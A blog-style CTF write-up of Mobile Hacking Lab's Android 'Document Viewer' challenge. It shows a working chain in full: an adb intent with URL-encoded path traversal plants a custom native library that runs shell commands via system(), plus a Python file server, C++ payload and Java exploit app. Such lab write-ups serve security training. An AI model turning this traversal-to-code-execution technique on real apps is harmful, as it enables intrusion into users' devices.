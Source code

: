 ```yaml
---
title:  "Mobile Hacking Lab - Document Viewer Writeup"
date:   2024-01-22T16:27:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Document Viewer](https://www.mobilehackinglab.com/course/lab-document-viewer-rce) challenge from Mobile Hacking Lab. 

## Static Analysis
Instead of solving challenge on Corellium instance,i downloaded base.apk from lab and solved on my local setup with Genymotion emulator.

When we open the app in emulator, it opens a page with "load pdf" button. When we press the button, it opens the file manager for us to select a pdf file. Let's open it with jadx to understand the app.

![](/assets/images_mhl_documentviewer/manifest.png)

When we examine the manifest file, we see that an intent filter is defined for MainActivity. To properly trigger this activity we need to send intent with http/https or file scheme and VIEW action. 
```bash
# Sample intent
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://evil.com
```
But we need to know what happened when this activity triggered. To undestand this, lets analyze MainActivity

![](/assets/images_mhl_documentviewer/mainactivity.png)
 
Inside the onCreate function, 3 method called after setting the view of activity. After that, if `proFeaturesEnabled` boolean is true, `initProFeatures` function will be called and as seen on line 29, `initProFeatures` is loaded from native library.

Let's analyze the functions one by one. I will skip the setLoadButtonListener function because, as the name suggests, in this function, after pressing the button, the path of the selected pdf file is taken, the file is processed and displayed on the screen.

### handleIntent Function

![](/assets/images_mhl_documentviewer/handleIntent.png)

handleIntent function handle the coming intent and after checking the action and uri, sends the uri to CopyFileFromUri function. After copying file from uri, it renders the pdf. So where and how does it copy the file from the uri?

![](/assets/images_mhl_documentviewer/copyFromUri.png)

copyFileFromUri fıunction is responsible for parsing the uri that comes with intent. It takes the last part of url with getLastPathSegment and uses it as filename. If last part is empty, filename will be "download.pdf". After that, we will see the line started with BuildersKt. I didnt write any line of kotlin code before and i searched that method on google. According to [this documentation](https://javadoc.io/doc/org.jetbrains.kotlinx/kotlinx-coroutines-core/1.1.1/kotlinx/coroutines/BuildersKt.html), launch method start a new coroutine without blocking current thread. In documentation, last argument of launch function is the code that will run when coroutine start but in jadx the last arg is null.

![](/assets/images_mhl_documentviewer/coroutine1.png)

As i understand (just guessing) when we created this coroutine, firstly it will set variables with arguments and call the invoke function( overridden [Function2](https://github.com/JetBrains/kotlin/blob/2fdc8b6c147462a09fa770cb8cb3aeffe53f3e9e/libraries/stdlib/jvm/runtime/kotlin/jvm/functions/Functions.kt#L22)). Inside the invoke function, invokeSuspend will be called. (If any kotlin developer is reading this, I would be very happy if he/she could tell me the meaning of this piece of code :D)

![](/assets/images_mhl_documentviewer/coroutine2.png)

invokeSuspend function will download file from given url and save it as `outfile`. 

### loadProLibrary Function

![](/assets/images_mhl_documentviewer/loadprolib.png)

This functioon tries to load a native library named `libdocviewer_pro.so` from `libraryfolder` directory. 
```java
getApplicationContext().getFilesDir() -> /data/data/com.mobilesecuritylab/files
Build.SUPPORTED_ABIS[0] -> x86_64 (for genymotion vm on my pc)

Final lib path -> "/data/data/com.mobilesecuritylab/files/native-libraries/x86_64/libdocviewer_pro.so"
```
If native library succesfully loaded, `proFeaturesEnabled` boolean will be settled as true. But the problem here is that this app doesn't have any native library inside itself. Because of that when you run the app you will see the error log on logcat. If app can find the native lib, it will call the `initProFeatures` in MainActivity.(İts important for exploitation part :))

## Finding vulnerability

When analyzing the apk we saw that this apk can load pdf files from given url and after that trying to load a library file that does not exist. If we can make the application load the library file we wrote maybe we can code execution with this application's permissions. To achive this code execution we need to find directory traversal to write our file the native lib directory. 

Lets get back to our "intent" :) I wrote a small python script to serve my testing files on localhost. It will return the pdf file to coming requests.

```py
#proudly stolen from : https://stackoverflow.com/questions/46105356/serve-a-file-from-pythons-http-server-correct-response-with-a-file
from http.server import BaseHTTPRequestHandler, HTTPServer
class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        exploit_file = open('testo.pdf', 'rb')
        self.wfile.write(exploit_file.read())
        self.end_headers()


myServer = HTTPServer(('localhost', 1234), MyHackyServer)
myServer.serve_forever()

```
```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/testo.pdf"

# 10.0.3.2 is the address of localhost of host machine for genymotion, if you are using Android Studio emulators, this ip will be 10.0.2.2 for you.
```
[![](https://img.youtube.com/vi/5nOURaJbibQ/hqdefault.jpg)](https://www.youtube.com/watch?v=5nOURaJbibQ)

As you can see in video, app gets the url from our intent and download our test file from server. After that it saves this file as "testo.pdf" in Downloads folder and render the file. For writing file to another directory we can try path traversal with `../` characters.  

![](/assets/images_mhl_documentviewer/lfi_test_1.png)

I gave the app's local storage to save the file but it saved the file in the Downloads folder again. getLastPathSegment fucntion parsed the our uri with `/` chars and file saved with original name. Lets take a look at [source code of getLastPathSegment](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=1076;drc=f5f71ff8fd1c5b1b39a28cb1585c7a0a097aa1c8;bpv=0;bpt=1)

![](/assets/images_mhl_documentviewer/getlastpathsegment.png)

It gets the segments of uri and returns the last one. For getting segments it calls [getPathSegments function](https://cs.android.com/android/platform/superproject/main/+/main:frameworks/base/core/java/android/net/Uri.java;l=2191;drc=f5f71ff8fd1c5b1b39a28cb1585c7a0a097aa1c8).

![](/assets/images_mhl_documentviewer/getPathSegments.png)

This function gets uri and parses with `/` characters and decode the strings between slashes. As i understand, the decoding process applied one time for every segment. İf we give our malicious url as url-encoded, this function will split our url from the slash and return the encoded part  as last segment after decoding. Lets send intent with encoded url.

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Ftest.pdf"

# the encoded part after the port number will be decoded and returned as last segment
```
![](/assets/images_mhl_documentviewer/lfi_test_2.png)

Yes! It worked. We can write file into the application directory. Next step is preparing a proper library file and write into a native lib folder.

For creating my native library, i created a c++ project with same name of target app in Android Studio. After that i changed the given c44 file little bit and added my hacky `initProFeatures` function. During this steps,  i watched [Laurie's video](https://www.youtube.com/watch?v=87uMi7L-3Hc)(thx a lot for great videos) about translating java code into native code on Android. Here is my native lib code:
```c++
#include <jni.h>
#include <string>

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_stringFromJNI(
        JNIEnv* env,
        jobject /* this */) {
    std::string hello = "Hello from C++";
    return env->NewStringUTF(hello.c_str());
}


extern "C" JNIEXPORT void JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(JNIEnv* env, jobject /* this */) {
    system("echo \"hacked by sh4d0wless\" > /data/data/com.mobilehackinglab.documentviewer/hacked.txt");
}
```
After building apk, i extracted the x86_64 version of this lib file with apktool and putted it to directory that my python server running.(Also changed the file name inside python script with libdocviewer_pro.so)

Here is the PoC:

```bash
adb shell am start -n com.mobilehackinglab.documentviewer/.MainActivity -a android.intent.action.VIEW -d "http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so"
```

[![](https://img.youtube.com/vi/rpgpSyrlfzo/hqdefault.jpg)](https://youtu.be/rpgpSyrlfzo)

It works :)

If you want to create an app for exploitation instead of adb commands, here is the code that i wrote:
```java
package com.mobilehackinglab.dv_exploit;
import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Uri uri = Uri.parse("http://10.0.3.2:1234/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86_64%2Flibdocviewer_pro.so");
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setClassName("com.mobilehackinglab.documentviewer","com.mobilehackinglab.documentviewer.MainActivity");
        intent.setData(uri);
        startActivity(intent);
    }
}
```
And here is the PoC video:

[![](https://img.youtube.com/vi/LJ0DPDG4Tw0/hqdefault.jpg)](https://youtu.be/LJ0DPDG4Tw0)


NOTES:
- App trigger the loading of the native lib on start, because of that we need to run the app for second time to trigger our exploit code.
- We dont have to write our code inside the `initProFeatures` function. We can use the JNI_OnLoad fucntion to trigger our shell commands. Because JNI_OnLoad called when library loaded([reference](https://docs.oracle.com/javase/8/docs/technotes/guides/jni/spec/invocation.html#JNJI_OnLoad)). I learned this information from [this](https://youtu.be/GQ7bwUOmVqk?list=PLwP4ObPL5GY_dBI_lSwBzKM4zxP4mWSqK&t=2447) twitch stream. 

Thanks for reading :) See you in next writeup!
